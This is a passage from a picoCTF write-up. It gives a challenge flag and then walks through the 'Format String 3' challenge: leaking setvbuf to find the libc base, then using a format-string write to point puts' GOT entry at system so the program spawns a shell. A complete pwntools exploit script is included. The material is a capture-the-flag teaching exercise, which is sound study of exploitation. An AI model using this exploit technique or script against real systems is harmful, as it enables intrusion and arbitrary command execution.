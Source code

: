 Running this gets the flag.

``🚩:`` **picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}**

### Format String 3 [300 PTS]

This challenge is pretty similar to Format String 2 except instead of changing a global variable, you utilize a libc leak and change the GOT entry of the `puts` function to the `system` function's address in libc.

We can see that the address of setvbuf is leaked in these lines:

```c
puts("Howdy gamers!");
printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
```

We can calculate the base address of libc using this since the libc version is also provided. 

Since we have the libc base address, we know where all the functions in libc are located during run time. 

This means we have access to the `system` function.

Something else that makes the challenge easier is the fact that at the end of main this line is executed:

```c
puts("/bin/sh")
```
If we manage to replace the puts GOT entry to point to the system function in libc, that line will actually call:

```c
system("/bin/sh")
```
This is exactly what we want to pop a shell.

Final solve script:

```py
from pwn import *

context.binary = binary = ELF("./vuln")

def exec_func(payload):
    with process("./vuln") as p:
        p.sendline(payload)
        p.recvline()
        p.recvline()
        res = p.recvline()
        print(res)
        return res.strip()


p = process()
p = remote("rhea.picoctf.net", 61867)
fmtstr = FmtStr(exec_func)
libc = ELF("./libc.so.6")
p.recvuntil("libc: ")
setvbuf = int(
    p.recvline().strip().decode(), 16
)  # finish this so that setvbuf is set to the address leaked by the program
libc.address = setvbuf - 0x7A3F0
payload = b"A" * fmtstr.padlen + fmtstr_payload(
    fmtstr.offset, {binary.got.puts: libc.symbols.system}
)
p.sendline(payload)


```